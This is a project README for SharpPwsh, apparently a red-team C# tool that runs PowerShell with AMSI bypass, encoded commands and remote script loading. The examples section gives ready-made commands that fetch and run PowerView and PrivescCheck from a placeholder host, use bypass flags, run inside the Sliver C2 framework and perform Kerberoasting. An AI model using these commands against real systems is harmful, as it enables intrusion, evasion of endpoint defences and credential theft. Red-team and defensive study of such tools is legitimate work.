 # SharpPwsh
C# .Net Framework program that uses `RunspaceFactory` for Powershell command execution.

## Features
- Execute Powershell commands
- Load & execute remote script
- AMSI Bypass
- Multiple command & script support
- Encoded command support
- Load & execute script from clipboard

## Usage

```
SharpPwsh 1.0.0.0
Copyright c  2022

  -c, --cmd            Required. Powershell command to run

  -u, --uri            Fetch script from URI

  -p, --clipboard      Fetch script from clipboard

  -b, --bypass-amsi    Bypass AMSI

  -e, --encoded        Encodeded command (base64)

  --help               Display this help screen.

  --version            Display version information.
```

## Examples

```
# execute powershell command
PS > .\SharpPwsh.exe -c whoami

# execute base64 encoded powershell command
PS > .\SharpPwsh.exe -e -c d2hvYW1pCg==

# load script from clipboard and execute command
PS > .\SharpPwsh.exe -p -c Get-NetLocalGroup

# load remote script and execute
PS > .\SharpPwsh.exe -u http://x.x.x.x/PowerView.ps1 -c get-netlocalgroup

# load remote script and execute encoded command
PS > .\SharpPwsh.exe -u http://x.x.x.x/PowerView.ps1 -e -c R2V0LU5ldExvY2FsR3JvdXAK

# execute multiple powershell commands
PS > .\SharpPwsh.exe -c hostname,whoami

# execute multiple powershell commands using multiple scripts
PS > .\SharpPwsh.exe -c get-netlocalgroup,invoke-privesccheck -u http://x.x.x.x/PowerView.ps1,http://x.x.x.x/PrivescCheck.ps1 -b

# sliver inline & bypass AMSI + ETW
sliver > execute-assembly -M -E -i /tools/SharpPwsh.exe -c get-netlocalgroup -u http://x.x.x.x/psh/PowerSploit/Recon/PowerView.ps1

# sliver BOF & bypass AMSI
sliver > inline-execute-assembly /tools/SharpPwsh.exe '-b -c invoke-kerberoast -u http://x.x.x.x/PowerView.ps1'
```

## Planned
- Load & execute embedded script
- Load & execute script from disk
- Compression & encryption support for scripts


## Build
Built using .NET Framework v4.5.1 in Visual Studio 2019.

Be sure to add `c:\windows\assembly\GAC_MSIL\System.Management.Automation\1.0.0.0__31bf3856ad364e35\System.Management.Automation.dll` as a reference.

The project uses [`dnMerge`](https://github.com/CCob/dnMerge) so it has to be compiled in `Release` mode.
